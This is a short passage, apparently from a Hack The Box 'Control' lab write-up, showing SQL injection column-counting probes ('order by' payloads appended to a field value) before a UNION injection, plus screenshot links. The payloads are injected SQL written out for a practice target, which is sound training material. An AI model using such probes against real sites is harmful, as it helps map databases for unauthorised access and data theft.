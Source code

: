 To check the Number of column are used in the statement for union injection

```bash
link'order by 0-- -
```

![image.png](/assets/Images/HTB_Control/image%209.png)

That means there are only 6 column used in the statement

```bash
link'order by 7-- -
```

![image.png](/assets/Images/HTB_Control/image%2010.png)
